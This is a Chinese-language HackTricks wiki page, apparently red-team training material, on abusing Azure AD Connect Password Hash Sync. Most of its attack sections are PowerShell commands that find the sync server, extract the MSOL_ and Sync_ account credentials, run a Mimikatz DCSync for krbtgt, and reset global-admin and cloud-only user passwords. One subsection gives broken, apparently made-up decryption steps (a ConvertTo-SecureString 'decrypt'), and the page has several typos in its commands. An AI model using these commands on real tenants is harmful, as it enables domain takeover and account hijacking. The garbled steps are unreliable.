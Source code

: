 # Az - PHS - Password Hash Sync

{% hint style="success" %}
学习和练习 AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和练习 GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交 PRs 分享黑客技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库。

</details>
{% endhint %}

## 基本信息

[来自文档:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/whatis-phs) **Password hash synchronization** 是实现混合身份的一种登录方法。**Azure AD Connect** 将用户密码的哈希值从本地 Active Directory 实例同步到基于云的 Azure AD 实例。

<figure><img src="../../../../.gitbook/assets/image (173).png" alt=""><figcaption></figcaption></figure>

这是公司用来同步本地 AD 和 Azure AD 的**最常见方法**。

所有**用户**和**密码哈希的哈希值**都从本地同步到 Azure AD。然而，**明文密码**或**原始哈希值**不会发送到 Azure AD。\
此外，**内置**安全组（如域管理员...）**不会同步**到 Azure AD。

**哈希同步**每**2 分钟**发生一次。然而，默认情况下，**密码过期**和**账户过期**不会在 Azure AD 中同步。因此，**本地密码已过期**（未更改）的用户可以继续使用旧密码**访问 Azure 资源**。

当本地用户想要访问 Azure 资源时，**身份验证在 Azure AD 上进行**。

**PHS** 是 **Identity Protection** 和 AAD Domain Services 等功能所必需的。

## 横向移动

当配置 PHS 时，会自动创建一些**特权账户**：

* 账户 **`MSOL_<installationID>`** 会在本地 AD 中自动创建。此账户被赋予 **Directory Synchronization Accounts** 角色（参见[文档](https://docs.microsoft.com/en-us/azure/active-directory/users-groups-roles/directory-assign-admin-roles#directory-synchronization-accounts-permissions)），这意味着它在本地 AD 中具有**复制 (DCSync) 权限**。
* 账户 **`Sync_<name of on-prem ADConnect Server>_installationID`** 会在 Azure AD 中创建。此账户可以**重置 Azure AD 中任何用户**（同步或仅云）的密码。

前述两个特权账户的密码**存储在安装了** **Azure AD Connect** 的服务器上的 **SQL server** 中。管理员可以提取这些特权用户的明文密码。\
数据库位于 `C:\Program Files\Microsoft Azure AD Sync\Data\ADSync.mdf`。

可以从其中一个表中提取配置，其中一个是加密的：

`SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent;`

**加密配置**使用 **DPAPI** 加密，包含本地 AD 中 **`MSOL_*`** 用户的密码和 AzureAD 中 **Sync\_\*** 的密码。因此，妥协这些账户可以提升到 AD 和 AzureAD 的权限。

你可以在[这次演讲中找到这些凭据如何存储和解密的完整概述](https://www.youtube.com/watch?v=JEIR5oGCwdg)。

### 查找 **Azure AD connect 服务器**

如果安装了 **Azure AD connect 的服务器**加入了域（文档中推荐），可以通过以下方式找到它：
```powershell
# ActiveDirectory module
Get-ADUser -Filter "samAccountName -like 'MSOL_*'" - Properties * | select SamAccountName,Description | fl

#Azure AD module
Get-AzureADUser -All $true | ?{$_.userPrincipalName -match "Sync_"}
```
### 滥用 MSOL\_\*

Azure AD Connect 是一个工具，用于将本地 Active Directory 与 Azure Active Directory 同步。它支持多种身份验证方法，包括 Password Hash Synchronization (PHS)。在 PHS 模式下，用户的密码哈希值会从本地 AD 同步到 Azure AD。

当 Azure AD Connect 安装时，它会创建一个名为 MSOL\_ 的本地帐户。此帐户用于与 Azure AD 进行通信，并具有读取本地 AD 的权限。攻击者可以滥用此帐户来获取对本地 AD 的访问权限。

#### 获取 MSOL\_ 密码

1. 在安装 Azure AD Connect 的服务器上，打开 PowerShell。
2. 运行以下命令以导出 MSOL\_ 帐户的凭据：

    ```powershell
    $creds = Get-ADSyncAADCredentials
    ```

3. 使用以下命令解密凭据：

    ```powershell
    $creds.Password | ConvertTo-SecureString -Key (1..32)
    ```

4. 现在你可以使用解密的密码来登录 MSOL\_ 帐户。

#### 滥用 MSOL\_ 帐户

一旦你获得了 MSOL\_ 帐户的密码，你可以使用它来执行各种攻击，例如：

- 读取本地 AD 中的用户和组信息。
- 修改本地 AD 中的用户和组信息。
- 创建新的用户和组。

通过滥用 MSOL\_ 帐户，攻击者可以在本地 AD 和 Azure AD 之间进行横向移动，从而扩大他们的攻击范围。
```powershell
# Once the Azure AD connect server is compromised you can extract credentials with the AADInternals module
Get-AADIntSyncCredentials

# Using the creds of MSOL_* account, you can run DCSync against the on-prem AD
runas /netonly /user:defeng.corp\MSOL_123123123123 cmd
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\krbtgt /domain:domain.local /dc:dc.domain.local"'
```
{% hint style="danger" %}
你也可以使用 [**adconnectdump**](https://github.com/dirkjanm/adconnectdump) 来获取这些凭证。
{% endhint %}

### 滥用 Sync\_\*

攻陷 **`Sync_*`** 账户后，可以**重置**任何用户的密码（包括全局管理员）。
```powershell
# This command, run previously, will give us alse the creds of this account
Get-AADIntSyncCredentials

# Get access token for Sync_* account
$passwd = ConvertTo-SecureString '<password>' -AsPlainText - Force
$creds = New-Object System.Management.Automation.PSCredential ("Sync_SKIURT-JAUYEH_123123123123@domain.onmicrosoft.com", $passwd)
Get-AADIntAccessTokenForAADGraph -Credentials $creds - SaveToCache

# Get global admins
Get-AADIntGlobalAdmins

# Get the ImmutableId of an on-prem user in Azure AD (this is the Unique Identifier derived from on-prem GUID)
Get-AADIntUser -UserPrincipalName onpremadmin@domain.onmicrosoft.com | select ImmutableId

# Reset the users password
Set-AADIntUserPassword -SourceAnchor "3Uyg19ej4AHDe0+3Lkc37Y9=" -Password "JustAPass12343.%" -Verbose

# Now it's possible to access Azure AD with the new password and op-prem with the old one (password changes aren't sync)
```
也可以**修改仅云用户的密码**（即使这是意料之外的）
```powershell
# To reset the password of cloud only user, we need their CloudAnchor that can be calculated from their cloud objectID
# The CloudAnchor is of the format USER_ObjectID.
Get-AADIntUsers | ?{$_.DirSyncEnabled -ne "True"} | select UserPrincipalName,ObjectID

# Reset password
Set-AADIntUserPassword -CloudAnchor "User_19385ed9-sb37-c398-b362-12c387b36e37" -Password "JustAPass12343.%" -Verbosewers
```
也可以导出该用户的密码。

{% hint style="danger" %}
另一种选择是**将特权权限分配给服务主体**，**Sync**用户有**权限**这样做，然后**访问该服务主体**作为提权的一种方式。
{% endhint %}

### Seamless SSO

可以将Seamless SSO与PHS一起使用，这容易受到其他滥用。请查看：

{% content-ref url="seamless-sso.md" %}
[seamless-sso.md](seamless-sso.md)
{% endcontent-ref %}

## 参考资料

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/whatis-phs)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf](https://troopers.de/downloads/troopers19/TROOPERS19\_AD\_Im\_in\_your\_cloud.pdf)
* [https://www.youtube.com/watch?v=xei8lAPitX8](https://www.youtube.com/watch?v=xei8lAPitX8)

{% hint style="success" %}
学习和实践AWS Hacking：<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
学习和实践GCP Hacking：<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram群组**](https://t.me/peass) 或 **关注**我们在**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过提交PR分享黑客技巧到** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库。

</details>
{% endhint %}
